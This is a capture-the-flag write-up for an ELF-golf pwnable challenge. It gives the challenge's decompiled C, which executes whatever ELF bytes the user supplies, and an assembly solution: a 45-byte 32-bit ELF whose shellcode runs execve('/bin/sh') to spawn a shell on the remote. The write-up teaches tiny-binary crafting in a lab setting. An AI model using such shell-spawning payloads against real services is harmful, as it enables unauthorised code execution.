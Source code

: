 `
Another ELF crafting pwnable challenge.
`;

## Provided Files
- chal
- Dockerfile

### chal decompilation
```c noheader
int32_t main(int32_t argc, char** argv, char** envp)
    int32_t var_7c = argc
    void* fsbase
    int64_t rax = *(fsbase + 0x28)
    setbuf(fp: stdout, buf: nullptr)
    setbuf(fp: stderr, buf: nullptr)
    puts(str: "I'm sure you all enjoy doing she…")
    puts(str: "But have you ever tried ELF golf…")
    puts(str: "Have fun!")
    int32_t var_6c
    __builtin_strncpy(dest: var_6c, src: "\x7fELF", n: 4)
    int32_t rax_1 = memfd_create("golf", 0)
    if (rax_1 s< 0) {
        perror(s: "failed to execute fd = memfd_cre…")
        exit(status: 1)
        noreturn
    }
    void var_68
    int32_t rax_2 = read(fd: 0, buf: &var_68, nbytes: 0x4f)
    if (rax_2 s< 0) {
        perror(s: "failed to execute ok = read(0, b…")
        exit(status: 1)
        noreturn
    }
    printf(format: "read %d bytes from stdin\n", zx.q(rax_2))
    if (memcmp(&var_6c, &var_68, 4) != 0) {
        puts(str: "not an ELF file :/")
        exit(status: 1)
        noreturn
    }
    int32_t rax_8 = write(fd: rax_1, buf: &var_68, nbytes: sx.q(rax_2))
    if (rax_8 s< 0) {
        perror(s: "failed to execute ok = write(fd,…")
        exit(status: 1)
        noreturn
    }
    printf(format: "wrote %d bytes to file\n", zx.q(rax_8))
    if (fexecve(fd: rax_1, argv, envp) s< 0) {
        perror(s: "failed to execute fexecve(fd, ar…")
        exit(status: 1)
        noreturn
    }
    *(fsbase + 0x28)
    if (rax == *(fsbase + 0x28)) {
        return 0
    }
    __stack_chk_fail()
    noreturn
```

## Intended
This challenge uses the same setup as ELFcrafting-v1, except it only allows a maximum of 79 bytes instead of 32. The smallest possible 64 bit binary is 80 bytes, and it should be impossible to go lower unless `binfmt.c` changes and becomes more permissive. This time the remote actually verifies the ELF signature, so no more shebangs. However the remote does not verify that the binary is actually a 64 bit binary. 32 bit binaries can be as small as 45 bytes, and gives up ample room for our own shellcode to pop a shell.

### Solution
**taken from [https://www.muppetlabs.com/~breadbox/software/tiny/teensy.html](https://www.muppetlabs.com/~breadbox/software/tiny/teensy.html)**

```x86asm noheader
		BITS 32
  
		org	0x00010000
  
		db	0x7F, "ELF"
		dd	1
		dd	0
		dd	$$
		dw	2
		dw	3
		dd	_start
		dd	_start
		dd	4
_start:	mov	al,	11
        jmp	next
		nop
		nop
		nop
		db	0
		dw	0x34
		dw	0x20
		dd	1
next:	mov	ebx,	bin_sh
        int	0x80
bin_sh:	db	"/bin/sh", 0
  
filesize	equ	$ - $$
```

### sidenote:
You could golf this down further by replacing the `_start` code with `/bin/sh\x00` and relocating `_start`.

### sidenote:
Some people had problems with their solutions because they attempted to load their programs at an address lower than ubuntu's default vm.mmap_min_addr of `0x10000` which caused their programs to crash.

## Unintendeds
Zero unintendeds (-^-)

